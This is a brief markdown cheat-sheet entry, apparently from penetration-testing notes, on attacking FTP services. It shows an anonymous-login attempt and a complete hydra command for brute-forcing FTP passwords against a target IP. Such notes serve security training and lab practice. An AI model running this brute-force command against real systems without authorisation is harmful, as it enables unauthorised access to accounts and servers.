 # Anonymous FTP login

On some systems FTP is so configured to  let you log in as user 'Anonymous' without a password.

## Try login

Try to login as user 'Anonymous' without providing a password

```
ftp [IP]
```

## Bruteforce FTP
When the following conditions are met,

    - There is an FTP server running on the target machine

    - We have a possible username

we can try to bruteforce the FTP service with [hydra](https://github.com/vanhauser-thc/thc-hydra).

```
hydra -t 4 -l [USER] -P [WORDLIST] -vV [IP] ftp
```
